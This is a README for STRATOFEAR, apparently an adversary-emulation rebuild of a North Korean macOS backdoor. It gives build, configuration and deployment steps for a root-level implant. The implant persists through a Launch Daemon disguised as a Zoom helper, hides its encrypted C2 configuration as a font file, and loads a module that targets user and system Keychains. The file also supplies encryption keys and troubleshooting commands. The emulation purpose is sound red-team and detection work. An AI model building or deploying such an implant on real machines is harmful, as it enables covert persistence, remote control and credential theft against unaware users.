

# STRATOFEAR

STRATOFEAR is a second-stage backdoor distinctive in its modular and monitoring
capabilities. STRATOFEAR uses a separate configuration file for its network
protocols and persists via Launch Daemon.

TIEDYE is used to fill in some of the feature gaps found int STRATOFEAR. Such as,
the backdoor will be written in C++ and communicate over HTTPS.

STRATOFEAR will contain two hardcoded paths, the first pointing to the backdoor’s
configuration file and the second pointing to the logging file.

STRATOFEAR is broken into the following components:

| Binary Name | Component | Description |
| :--- | :---: | :---- |
| main | mach-o | Light-weight skelton program able to extend it's functionality using modules (.dylib files). Performs initial discovery, establishes communications, & waits for modules. Expects to run with elevated permissions as root. |
| config | binary | Small binary file STRATOFEAR uses for network configuration information. Encrypted during the build process and renamed to the value stored in the environment variable `CONFIG_FILENAME_ENV` in the `CMakePresets.json file`.|
| libmodule_keychain | dylib | Module that saves the user and system Keychain filepaths to environment variables used by STRATOFEAR. The environment variables are `JC_BUNDLE_ID` for the user's Keychain path and `JC_WORKFLOW_MSG` for the system Keychain path. |
| runner | mach-o | Standalone program used to test & execute dylibs during development. |
| runnerPath | mach-o | Modified version of the `runner` program used to test & execute dylibs using a provided path to dylib file for testing |
| macho_discovery | mach-o | Standalone program used in alternative steps to run discovery commands for emulation. |
| macho_monitorDevices | mach-o | Standalone program used in alternative steps to monitor devices mounted to the system. |

## Build 🏗️

STRATOFEAR can be built in Debug or Release mode using the included `CMakePreset.json` configurations.

### Dependencies

- cmake version `3.26`
- ninja
- xcode command line tools - Installs libcurl, clang, gcc, & git for terminal
- `CMakePresets.json` version `6` support (Version: 1.85.2 Universal)
- If using Visual Studio Code to compile - c\c++ & cmake extensions

#### Install Dependencies

Assuming this is installed using the AWS environment and homebrew is installed under `ec2-user`.

Install dependencies as the `ec2-user`

```zsh
su - ec2-user
```

Install xcode command line tools

```zsh
xcode-select --install
```

Install `CMake` version `3.26`

```zsh
brew install cmake
```

Install `ninja` for cmake

```zsh
brew install ninja
```

### Quick Start

#### Command Line Quick Start

Build both Debug and Release configurations of STRATOFEAR.

```zsh
cmake --workflow --preset cicd-release
```

If running as root, use the following command

```zsh
PATH=/opt/homebrew/bin/:$PATH
```

:bulb: This will Configure, Build and Test. To Configure only, run:
`cmake --preset default`

Bundle all generated artifacts into the top-level `install/` directory using the CMake installation facility.

```zsh
cmake --install ./build --config release
```

- `./install/Release/` contains the production STRATOFEAR payload & the network configuration file.
- `./install/Bin/` contains payloads used for alternate steps.
- `./install/Release/lib` contains the dylibs STRATOFEAR deploys. These are the same for production and debug versions.

### Network Configuration

STRATOFEAR uses a configuration file to configure it's network protocols, domain, and provide additional embedded
resources. The network configuration file is created by the [createConfig.cpp](./src/implant/createConfig.cpp).
Use the `STRATOFEAR/CMakePresets.json` file to customize the configurations. If no arguments are provided in the
`STRATOFEAR/CMakePresets.json`, STRATOFEAR connects to the localhost, `127.0.0.1:8080`, as the default configuration.

1. Navigate to the `STRATOFEAR/CMakePresets.json` file. Locate the
environment variable section of the json file...

      ```json
            "environment": {
                  "C2_DOMAIN": "10.100.0.70", // an IP Address or a Domain taken in as a string value
                  "C2_PORT": "8080", // string value that is appended to the domain with `:`
                  "CONFIG_ENC_KEY": "badapples", // string used to encrypt and decrypt the file
                  "CONFIG_PATH_ENV": "/Library/Fonts/", // location for STRATOFEAR to look the configuration file 
                  "CONFIG_FILENAME_ENV": "pingfang.ttf.md5", // filename of the configuration file STRATOFEAR uses
                  "MODULE_USERNAME": "batgirl", // username used to build a path used int the keychain dylib file
                  "CERT_PATH_ENV": "${sourceDir}/stratofear.pem", // path to the HTTPS cert that will be embedded during the build
                  "HEADER_PATH_ENV": "${sourceDir}/include/cert.hpp" // path to the header file created with HTTPS cert embedded
            },
      ```

1. Change the variables with a new value. For example...

      ```json
            "environment": {
                  "C2_DOMAIN": "10.100.0.203",
                  "C2_PORT": "8080",
                  "CONFIG_ENC_KEY": "youcantseeeeeme",
                  "CONFIG_PATH_ENV": "/Library/Fonts/",
                  "CONFIG_FILENAME_ENV": "AppleSDGothicNeo.md5",
                  "MODULE_USERNAME": "user",
                  "CERT_PATH_ENV": "${sourceDir}/stratofear.pem",
                  "HEADER_PATH_ENV": "${sourceDir}/include/cert.hpp"
            },
      ```

1. Compile and run using the workflow commands for release or debug.

#### Configuration File Encryption

STRATOFEAR's configuration file, `config`, is located in the `ER6/Resources/STRATOFEAR/build/src/implant`
folder. Cmake encrypts the config file using the following command.

```zsh
    openssl enc -aes-128-cbc -pass pass:${CONFIG_ENC_KEY} -in config -out ${CONFIG_FILENAME_ENV}
```

To decrypt, identify the password string used in the `CMakePresets.json` with the correct name and use
the following command...

```zsh
openssl enc -d -aes-128-cbc -pass pass:<CONFIG_ENC_KEY variable> -in <CONFIG_FILENAME_ENV> -out decrypted_CONFIG_FILENAME_ENV
```

Note: This command does not like to encrypt and decrypt files using the same name. Alter the the output filename to ensure this command works.

### Build Presets

#### Command Line Build

*NOTE: This section assumes Configuration has been completed.*

Building for debug:

These commands removes current artifacts and then runs the build command.

```zsh
cmake --build --preset debug --clean-first
```

`./install/Debug/` contains the debug STRATOFEAR payload & the network configuration file.

Building for release:

```bash
cmake --build --preset release --clean-first
```

`./install/Release/` contains the Production STRATOFEAR payload & the network configuration file.

There is no debug or release version for the libraries or alternate step executables.
`./install/Bin/` contains payloads for alternate steps.
`./install/lib` contains the dylibs STRATOFEAR deploys.

## Install 📦

Installing STRATOFEAR copies all of the artifacts from both Release
and Debug builds into the top-level `install/` directory. This is simply for
ease of use and ease of distribution.

The final product should be a top-level directory named `install/` with the
following layout:

```zsh
STRATOFEAR/
├─ install/
   ├─ Debug/
   │  ├─ main
   │  ├─ pingfang.ttf.md5
   ├─ Release/
   │  ├─ main
   │  ├─ pingfang.ttf.md5
   ├─ lib/
   │  ├─ libmodule_keychain.dylib
   ├─ bin/
   │  ├─ macho_discovery
   │  ├─ runner
   │  ├─ runnerPath
```

### Command Line Install

```zsh
cmake --install ./build
```

### Visual Studio

Navigate to the cmake menu.

**Configure**: Select the `default` option (should be the only one)
**Build**: Select one of the following build presets:

| Build Preset | Description |
| :---: | :------ |
| Default | Builds all targets for tests, release, and debug |
| release | This builds the release version that has additional commands to strip strings and compress the binary |
| debug | This builds the debug version containing verbose logging & strings |
| test | This builds the debug version of binaries and the runner used for dynamic libraries (`.dylib`) testing |

*Targets Field*
Select the `[Targets In Preset]` to compile all targets configured for that preset



Click the `build` icon along the bottom menu bar of VSCode IDE

## Test 🧪

The `cicd-debug` [CMake workflow](#command-line-quick-start) will build and test STRATOFEAR
with a single command. This section details how to run tests independently from
a build process.

### Command Line Test

Run all tests

```zsh
ctest --preset all
```

To print out verbose output of failed tests

```zsh
ctest --preset all --rerun-failed --output-on-failure
```

#### Testing dylibs

Copy/Paste the following commands to execute workflow, tests, and implant.

Build the executables

```zsh
cmake --workflow --preset cicd-debug
```

Move the end deliverables to the `install` folder

```zsh
cmake --install ./build --config debug
```

To test the dynamic library, execute the runner program to load and execute the `libmodule_keychain.dylib`

```zsh
cp install/bin
./runner
```

Logs are located at `/Library/PrivilegedHelperTools/sflog.log`

## Cleanup 🧹

From the STRATOFEAR folder, build the executables using either of the commands below

```zsh
cmake --workflow --preset cicd-debug
cmake --workflow --preset cicd-release
```

Copy the `stratofearCleanUp.sh` script to the STRATOFEAR folder.

```zsh
cp ../cleanup/stratofearCleanUp.sh .
```

Execute the `stratofearCleanUp.sh` script.

```zsh
sudo ./stratofearCleanUp.sh
```

## Troubleshoot 🤔

Start STRATOFEAR manually

```zsh
sudo launchctl load /Library/LaunchDaemons/us.zoom.ZoomHelperTool.plist
```

Kill STRATOFEAR manually

```zsh
sudo launchctl unload /Library/LaunchDaemons/us.zoom.ZoomHelperTool.plist
```

Verify the STRATOFEAR service is running

```zsh
sudo launchctl dumpstate system/us.zoom.ZoomHelperTool | grep zoom
```

Another way to see the STRATOFEAR service is running

```zsh
ps aux | grep us.zoom.ZoomHelperTool
```

### Debugging in VScode

Create a folder called `.vscode` in your project/workspace. Add this folder to the .gitignore file.
Use the following templates to create the following files.

- `launch.json` - executable paths for the debugger to reference per setting listed
- `settings.json` - ensure debugging is enabled
- `tasks.json` - used for building the main executable and the unit tests

`launch.json` configuration file

```json
{
      /*
      Use IntelliSense to learn about possible attributes.
      Hover to view descriptions of existing attributes.
      For more information, visit: https://go.microsoft.com/fwlink/?linkid=830387
      */
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug STRATOFEAR",
            "type": "cppdbg",
            "request": "launch",
            "program": "${workspaceFolder}/install/Debug/main",
            "MIMode": "lldb",
            "args": [],
            "cwd": "${workspaceFolder}/install/Debug",
            "externalConsole": false,
            "environment": [],
            "preLaunchTask": "Build STRATOFEAR"
        },
        {
            "name": "(ctest) Launch test",
            "type": "cppdbg",
            "cwd": "${workspaceFolder}",
            "request": "launch",
            "MIMode": "lldb",
            "program": "${cmake.testProgram}",
            "args": [ "${cmake.testArgs}" ],
            "preLaunchTask": "Build STRATOFEAR-test"
        }
    ]
}
```

`settings.json` configuration file should automatically generated. To enable debugging, the `cmake.allowUnsupportedPresetsVersions` and `debug.allowBreakpointsEverywhere` are set to true.

```zsh
{
    "cmake.allowUnsupportedPresetsVersions": true,
    "debug.allowBreakpointsEverywhere": true,
    "files.associations": {
        "__bit_reference": "cpp",
        "__config": "cpp",
        "__debug": "cpp",
        "__errc": "cpp",
        ...
```

`tasks.json` configuration file

```zsh
{
    "version": "2.0.0",
    "tasks": [
        {
            "type": "cmake",
            "label": "Build STRATOFEAR",
            "command": "build",
            "targets": [
                "main"
            ],
            "preset": "${command:cmake.activeBuildPresetName}",
            "group": {
                "kind": "build",
                "isDefault": true
            },
            "problemMatcher": [],
            "detail": "CMake template build task"
        },
        {
            "type": "cmake",
            "label": "Build STRATOFEAR-test",
            "command": "build",
            "targets": [
                "main",
                "stratofear-test",
                "module_keychain",
                "macho_discovery",
                "runnerPath",
                "test_module",
                "configGenerator"
            ],
            "preset": "${command:cmake.activeBuildPresetName}",
            "group": "build",
            "problemMatcher": [],
            "detail": "CMake template build task"
        }
    ]
}
```

### Logs

Logs

STRATOFEAR will create a log file `sflog.log`` in the current working directory.
The log file is XOR encrypted with the key COFFEEEE.

Use the [log_decryptor](../log_decryptor/) to decrypt the log file

```zsh
python3 aes_base64_log_decryptor.py -i sflog.log -o dec_sflog.log -k C0FFEEEE --xor
```

View the contents of the decrypted log file

```zsh
cat dec_sflog.log
```

## CTI 📄

| Date | Report |
| :--------: | :--------------------|
| 27 July 2023 | [North Korea Leverages SaaS Provider in a Targeted Supply Chain Attack](https://www.mandiant.com/resources/blog/north-korea-supply-chain)|
| 20 July 2023 | [JumpCloud Cyber Attack Linked to North Korean Hackers](https://www.securityweek.com/jumpcloud-cyberattack-linked-to-north-korean-hackers/)|
| 16 October 2023 | [macOS Malware 2023: A Deep Dive into Emerging Trends and Evolving Techniques](https://www.sentinelone.com/blog/macos-malware-2023-a-deep-dive-into-emerging-trends-and-evolving-techniques/) |
| 20 July 2023 | [JumpCloud Intrusion Infrastructure](https://www.sentinelone.com/labs/jumpcloud-intrusion-attacker-infrastructure-links-compromise-to-north-korean-apt-activity/) |

## References 📝

| Description                  | URL                                                             |
| ---------------------------- | --------------------------------------------------------------- |
| xxx | [examples](https://gist.github.com/Arno0x/386ebfebd78ee4f0cbbbb2a7c4405f74) |
